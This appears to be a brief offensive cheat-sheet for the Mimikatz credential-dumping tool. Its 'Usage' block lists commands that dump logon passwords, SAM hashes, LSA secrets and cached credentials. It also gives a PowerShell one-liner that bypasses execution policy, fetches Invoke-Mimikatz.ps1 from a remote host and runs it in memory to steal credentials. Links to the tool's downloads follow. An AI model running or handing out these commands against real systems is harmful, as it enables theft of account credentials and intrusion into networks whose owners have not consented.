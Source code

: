 # Name
Mimikatz

## Usage
```
token::elevate
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
lsadump::cache

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

## Source
* [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip)
* [Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)
* [Mimikatz.exe](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip)
